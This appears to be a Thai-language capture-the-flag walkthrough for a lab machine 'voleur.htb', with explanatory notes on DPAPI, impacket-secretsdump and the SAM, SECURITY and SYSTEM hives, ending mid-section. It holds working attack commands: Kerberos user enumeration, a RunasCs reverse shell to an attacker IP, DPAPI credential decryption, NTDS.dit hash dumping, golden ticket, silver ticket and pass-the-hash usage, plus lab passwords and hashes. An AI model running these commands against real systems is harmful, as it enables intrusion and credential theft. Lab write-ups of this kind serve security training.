


impacket-GetADUsers -all -dc-ip 10.10.11.76 voleur.htb/ryan.naylor:HollowOct31Nyt -dc-host dc.voleur.htb -k


impacket-GetNPUsers voleur.htb/ryan.naylor:HollowOct31Nyt -usersfile users.txt -dc-ip 10.10.11.76 -request -k


มันไม่ -k แล้วไปอ่านใน klist จะอ่านจาก exportเท่านั้น


evil-winrm -i dc.voleur.htb -r voleur.htb

-r, --realm DOMAIN               Kerberos auth, it has to be set also in /etc/krb5.conf file using this format -> CONTOSO.COM = { kdc = fooserver.contoso.com }




./RunasCs.exe  svc_ldap M1XyC9pW7qT5Vn powershell -r 10.10.14.18:4444




Get-ADObject -Filter 'SamAccountName -eq "todd.wolfe"' -IncludeDeletedObjects | Restore-ADObject






Could not find a suitable mechtype in NEG_TOKEN_INIT  เปลี่ยนไปใช้ impacket-smbclient voleur.htb/Todd.Wolfe:'NightT1meP1dg3on14'@dc.voleur.htb -k






DPAPI (Data Protection Application Programming Interface) เป็น API ของ Windows ที่ใช้สำหรับการเข้ารหัสและถอดรหัสข้อมูลอย่างปลอดภัย
หลักการทำงาน

DPAPI ใช้กุญแจเข้ารหัสที่ผูกติดกับบัญชีผู้ใช้ (User Account) หรือเครื่องคอมพิวเตอร์ (Machine) ทำให้เฉพาะผู้ใช้หรือเครื่องนั้นๆ เท่านั้นที่สามารถถอดรหัสข้อมูลได้
ประเภทของ DPAPI

    1. User-level DPAPI - ผูกกับบัญชีผู้ใช้ เฉพาะผู้ใช้คนนั้นถึงจะถอดรหัสได้

    2. Machine-level DPAPI - ผูกกับเครื่อง ทุกบัญชีในเครื่องนั้นสามารถถอดรหัสได้


## User-level DPAPI
**Master Key:**
- `%APPDATA%\Microsoft\Protect\{SID}\` 
- เช่น `C:\Users\Username\AppData\Roaming\Microsoft\Protect\S-1-5-21-xxxxxxxxx\`
- ไฟล์ชื่อเป็น GUID เช่น `a1b2c3d4-e5f6-7890-abcd-ef1234567890`

**ข้อมูลที่เข้ารหัสแล้ว:**
- แอปพลิเคชันต่างๆ เก็บไว้ในตำแหน่งของตัวเอง
- เช่น Chrome เก็บรหัสผ่านใน `%LOCALAPPDATA%\Google\Chrome\User Data\Default\Login Data`

## Machine-level DPAPI  
**Master Key:**
- `%ALLUSERSPROFILE%\Microsoft\Protect\S-1-5-18\`
- เช่น `C:\ProgramData\Microsoft\Protect\S-1-5-18\`

## ตำแหน่งสำคัญอื่นๆ
**Credential Manager:**
- `%LOCALAPPDATA%\Microsoft\Credentials\`
- เก็บ Windows Credentials ที่ผู้ใช้บันทึกไว้

**Certificate Store:**
- `%APPDATA%\Microsoft\SystemCertificates\`
- เก็บ Private Key ที่เข้ารหัสด้วย DPAPI

**Registry:**
- `HKEY_CURRENT_USER\Software\Microsoft\Protected Storage System Provider`
- เก็บข้อมูลเมตาดาต้าและการตั้งค่า

## โครงสร้างไฟล์
ไฟล์ Master Key จะมีโครงสร้างแบบ Binary และถูกเข้ารหัสด้วย:
- รหัสผ่านของผู้ใช้ (User Password)
- หรือ Machine Key สำหรับ Machine-level

## ข้อควรระวัง
- ไฟล์เหล่านี้ถูกเข้ารหัสแล้ว ไม่สามารถอ่านได้โดยตรง
- การลบไฟล์ Master Key จะทำให้ข้อมูลที่เข้ารหัสไว้ใช้ไม่ได้
- การย้ายไฟล์ไปเครื่องอื่นจะไม่สามารถใช้งานได้

ตำแหน่งเหล่านี้เป็นที่ Windows จัดเก็บกุญแจและข้อมูลที่เข้ารหัสด้วย DPAPI อย่างอัตโนมัติ






└─$ impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password NightT1meP1dg3on14 

└─$ impacket-dpapi credential -file 772275FAD58525253490A9B0039791D3 -k 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83

Username    : jeremy.combs

Unknown     : qT3V9pLXyN7W4m


## DPAPI Blob คืออะไร

**DPAPI Blob** = ข้อมูลที่ถูกเข้ารหัสแล้วด้วย DPAPI ในรูปแบบ binary

### โครงสร้างของ DPAPI Blob:
```
[Header] + [Encrypted Data] + [MAC/Signature]
```

### ข้อมูลใน Header:
- **GUID** ของ Master Key ที่ใช้เข้ารหัส
- **Algorithm** ที่ใช้ (AES, 3DES, etc.)
- **Salt** และ **IV** 
- **Metadata** อื่นๆ

### ตัวอย่างการใช้งาน:
```bash
# ถอดรหัส DPAPI blob
impacket-dpapi unprotect -file encrypted_blob.bin -key <master_key>

# ดู metadata ของ blob
impacket-dpapi unprotect -file encrypted_blob.bin -key <master_key> -debug
```

---

## Master Key คืออะไร

**Master Key** = กุญแจหลักที่ใช้เข้ารหัส/ถอดรหัส DPAPI Blob

### การทำงาน:
1. Windows สร้าง **Master Key** สำหรับแต่ละ user
2. **Master Key** ถูกเข้ารหัสด้วย **User Password**
3. **Master Key** ใช้เข้ารหัสข้อมูล sensitive ต่างๆ

### ตัวอย่างไฟล์ Master Key:
```
C:\Users\Username\AppData\Roaming\Microsoft\Protect\S-1-5-21-xxx\
├── 08949382-134f-4c63-b93c-ce52efc0aa88  ← Master Key File
├── a1b2c3d4-e5f6-7890-abcd-ef1234567890  ← อีกไฟล์หนึ่ง
└── BK-DOMAIN                             ← Backup Key
```

---

## ความสัมพันธ์ระหว่าง Blob และ Master Key

```
User Password → Master Key → DPAPI Blob → Decrypted Data
```

### ขั้นตอนการทำงาน:

1. **สร้าง Master Key**:
   ```bash
   impacket-dpapi masterkey -file <masterkey_file> -sid <user_sid> -password <password>
   # ได้: Master Key (hex string)
   ```

2. **ใช้ Master Key ถอดรหัส Blob**:
   ```bash
   impacket-dpapi unprotect -file <blob_file> -key <master_key>
   # ได้: ข้อมูลจริงที่ถูกเข้ารหัส
   ```

---

## ประเภทของ DPAPI Blob

### 1. **Credential Blobs**
```bash
# ไฟล์ที่เก็บรหัสผ่าน
impacket-dpapi credential -file <credential_file> -key <master_key>
```

### 2. **Vault Blobs**
```bash
# Windows Vault data
impacket-dpapi vault -vcrd <vault_cred> -vpol <vault_policy> -key <master_key>
```

### 3. **Browser Data Blobs**
```bash
# Chrome passwords, cookies, etc.
impacket-dpapi unprotect -file <chrome_data> -key <master_key>
```

### 4. **Certificate Private Keys**
```bash
# Private keys ของ certificates
impacket-dpapi unprotect -file <cert_key> -key <master_key>
```

---

## ตัวอย่างการใช้งานจริง

### สถานการณ์: ได้ Master Key มาแล้ว
```bash
# Master Key ที่ได้จากคำสั่งก่อนหน้า
MASTER_KEY="0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83"

# ใช้ Master Key ถอดรหัส blob ต่างๆ
impacket-dpapi unprotect -file some_encrypted_file.bin -key $MASTER_KEY
impacket-dpapi credential -file credential_file -key $MASTER_KEY
impacket-dpapi vault -vcrd vault_cred -vpol vault_policy -key $MASTER_KEY
```

### การหาไฟล์ที่เข้ารหัสด้วย Master Key นี้:
```bash
# ค้นหาไฟล์ที่มี GUID ของ Master Key
grep -r "08949382-134f-4c63-b93c-ce52efc0aa88" . 2>/dev/null

# ค้นหาไฟล์ credential
find . -name "*.cred" -o -name "*" | grep -E "^[0-9A-F]{32}$"
```

---

## สรุป

- **Master Key** = กุญแจหลักที่ได้จากการถอดรหัสด้วย user password
- **DPAPI Blob** = ข้อมูลที่ถูกเข้ารหัสด้วย Master Key
- **ขั้นตอน**: Password → Master Key → ถอดรหัส Blob → ได้ข้อมูลจริง

การได้ Master Key มาแล้ว = สามารถถอดรหัสข้อมูล sensitive ทั้งหมดของ user นั้นได้!















scp -r -P 2222 -i id_rsa svc_backup@10.10.11.76:"/mnt/c/IT/Third-Line Support/Backups/Active Directory" .

scp -r -P 2222 -i id_rsa svc_backup@10.10.11.76:"/mnt/c/IT/Third-Line Support/Backups/registry" .

┌──(kali㉿kali)-[~/Downloads]
└─$ impacket-secretsdump -ntds Active\ Directory/ntds.dit -system registry/SYSTEM -history LOCAL 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xbbdd1a32433b87bcc9b875321b883d2d
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 898238e1ccd2ac0016a18c53f4569f40
[*] Reading and decrypting hashes from Active Directory/ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2:::







## impacket-secretsdump คืออะไร

**impacket-secretsdump** เป็นเครื่องมือสำหรับ **dump credentials** จากระบบ Windows โดยการดึง hash passwords, secrets, และข้อมูลสำคัญต่างๆ

## หลักการทำงาน

### 1. **การเข้าถึงข้อมูล**
```bash
# เข้าถึงผ่าน network (Remote)
impacket-secretsdump domain/user:password@target_ip

# เข้าถึงผ่าน files (Local)
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
```

### 2. **แหล่งข้อมูลที่ดึง**
- **SAM Database** - Local user accounts
- **SECURITY Hive** - LSA secrets, cached credentials
- **SYSTEM Hive** - System keys, machine secrets
- **NTDS.dit** - Domain database (Domain Controller)

---

## โหมดการทำงาน

### 1. **Remote Mode** (เข้าถึงผ่าน network)
```bash
# ใช้ password
impacket-secretsdump domain/user:password@192.168.1.100

# ใช้ NTLM hash
impacket-secretsdump domain/user@192.168.1.100 -hashes :ntlm_hash

# ใช้ Kerberos ticket
impacket-secretsdump domain/user@192.168.1.100 -k -no-pass
```

### 2. **Local Mode** (ใช้ไฟล์ที่ดึงมา)
```bash
# จาก registry hives
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL

# จาก Domain Controller
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```

---

## ข้อมูลที่ดึงได้

### 1. **SAM Database**
```bash
# Local user accounts
Administrator:500:hash1:hash2:::
Guest:501:hash1:hash2:::
user1:1001:hash1:hash2:::
```

### 2. **LSA Secrets**
```bash
# Service accounts, scheduled tasks
$MACHINE.ACC: domain\machine$:hash
DefaultPassword: plaintext_password
DPAPI_SYSTEM: dpapi_key
```

### 3. **Cached Credentials**
```bash
# Domain users ที่เคย login
domain\user1:$DCC2$hash
domain\user2:$DCC2$hash
```

### 4. **NTDS.dit** (Domain Controller)
```bash
# ทุก domain users
domain\Administrator:500:hash1:hash2:::
domain\user1:1001:hash1:hash2:::
domain\user2:1002:hash1:hash2:::
```

---

## ตัวอย่างการใช้งาน

### Remote Extraction
```bash
# จาก workstation
impacket-secretsdump 'DOMAIN/user:password@192.168.1.100'

# จาก domain controller
impacket-secretsdump 'DOMAIN/admin:password@192.168.1.10' -just-dc

# เฉพาะ NTLM hashes
impacket-secretsdump 'DOMAIN/user:password@192.168.1.100' -just-dc-ntlm
```

### Local Extraction
```bash
# หลังจาก dump registry
reg save HKLM\SAM SAM
reg save HKLM\SECURITY SECURITY  
reg save HKLM\SYSTEM SYSTEM

# ใช้ secretsdump
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
```

### Domain Controller Extraction
```bash
# หลังจาก dump NTDS.dit
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL -outputfile domain_hashes.txt
```

---

## ขั้นตอนการทำงานภายใน

### 1. **การเชื่อมต่อ**
- ใช้ **SMB** เพื่อเข้าถึง remote registry
- ใช้ **RPC** เพื่อเรียกใช้ registry functions
- ใช้ **DRSUAPI** สำหรับ Domain Controller

### 2. **การดึงข้อมูล**
```python
# Pseudo code
def extract_sam():
    # เปิด SAM registry hive
    sam_hive = open_registry("SAM")
    
    # ดึง user accounts
    users = sam_hive.get_users()
    
    # ถอดรหัส password hashes
    for user in users:
        lm_hash = decrypt_lm_hash(user.hash_data)
        ntlm_hash = decrypt_ntlm_hash(user.hash_data)
```

### 3. **การถอดรหัส**
- ใช้ **System Key** จาก SYSTEM hive
- ใช้ **Boot Key** เพื่อถอดรหัส SAM
- ใช้ **LSA Key** เพื่อถอดรหัส LSA secrets

---

## ข้อมูลเพิ่มเติมที่ได้

### LSA Secrets ที่สำคัญ
```bash
# Machine account password
$MACHINE.ACC: hash_of_machine_account

# DPAPI keys
DPAPI_SYSTEM: master_key_for_system_dpapi

# Service passwords
_SC_ServiceName: plaintext_password

# Cached logon information
NL$KM: cached_credentials_key
```

### Cached Credentials Format
```bash
# DCC2 (Domain Cached Credentials v2)
domain\username:$DCC2$iteration_count#username#hash

# สามารถ crack ได้ด้วย hashcat
hashcat -m 2100 hash.txt wordlist.txt
```

---

## การป้องกันและตรวจจับ

### Detection
```bash
# Event logs ที่เกิดขึ้น
# 4624: Account logon
# 4672: Special privileges assigned
# 4673: Privileged service called
# 5140: Network share accessed
```

### Prevention
- **Credential Guard** - ป้องกันการดึง credentials
- **LSASS Protection** - ป้องกันการเข้าถึง LSASS process
- **Restricted Admin Mode** - จำกัดการใช้ credentials
- **Regular Password Changes** - เปลี่ยนรหัสผ่านเป็นประจำ

---

## เทคนิคขั้นสูง

### 1. **Golden Ticket Attack**
```bash
# ใช้ krbtgt hash ที่ได้มา
impacket-ticketer -nthash <krbtgt_hash> -domain domain.com -spn cifs/target Administrator

# ใช้ ticket
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass domain.com/Administrator@target
```

### 2. **Silver Ticket Attack**
```bash
# ใช้ service account hash
impacket-ticketer -nthash <service_hash> -domain domain.com -spn cifs/target Administrator
```

### 3. **Pass-the-Hash**
```bash
# ใช้ NTLM hash โดยตรง
impacket-psexec -hashes :ntlm_hash domain/user@target
```

impacket-secretsdump เป็นเครื่องมือที่ทรงพลังมากในการดึงข้อมูล credentials และเป็นขั้นตอนหลักใน post-exploitation phase ของ penetration testing!


## SAM Database (Security Accounts Manager)

### คืออะไร
**SAM** เป็นฐานข้อมูลที่เก็บข้อมูลบัญชีผู้ใช้ **Local** ของเครื่อง Windows

### ตำแหน่ง
```bash
# Registry path
HKEY_LOCAL_MACHINE\SAM

# Physical file
C:\Windows\System32\config\SAM
```

### ข้อมูลที่เก็บ
- **Local user accounts** (Administrator, Guest, ผู้ใช้ local อื่นๆ)
- **Password hashes** (LM, NTLM)
- **User IDs (RID)**
- **Account policies** (password expiry, login times)
- **Group memberships** สำหรับ local groups

### ตัวอย่างข้อมูลที่ดึงได้
```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
john:1001:aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76:::
```

---

## SECURITY Hive

### คืออะไร
**SECURITY Hive** เก็บข้อมูลความปลอดภัยของระบบ รวมถึง **LSA Secrets** และ **Cached Credentials**

### ตำแหน่ง
```bash
# Registry path
HKEY_LOCAL_MACHINE\SECURITY

# Physical file
C:\Windows\System32\config\SECURITY
```

### ข้อมูลที่เก็บ

#### 1. LSA Secrets
```bash
# Machine account password (สำหรับ domain)
$MACHINE.ACC: DOMAIN\MACHINE$:hash

# Service account passwords
_SC_ServiceName: plaintext_password

# Scheduled task credentials
_SC_MSSQL$SQLEXPRESS: sa_password

# DPAPI system keys
DPAPI_SYSTEM: system_dpapi_masterkey

# Default passwords
DefaultPassword: default_user_password
```

#### 2. Cached Domain Credentials
```bash
# Domain users ที่เคย login (เก็บไว้ 10 คนล่าสุด)
DOMAIN\user1:$DCC2$10240#user1#hash
DOMAIN\user2:$DCC2$10240#user2#hash
DOMAIN\administrator:$DCC2$10240#administrator#hash
```

#### 3. Kerberos Keys
```bash
# Service Principal Names (SPN) keys
krbtgt: kerberos_key
HTTP/server: service_key
```

---

## SYSTEM Hive

### คืออะไร
**SYSTEM Hive** เก็บข้อมูลการกำหนดค่าระบบ รวมถึง **Boot Key** ที่ใช้ถอดรหัส SAM และ SECURITY

### ตำแหน่ง
```bash
# Registry path
HKEY_LOCAL_MACHINE\SYSTEM

# Physical file
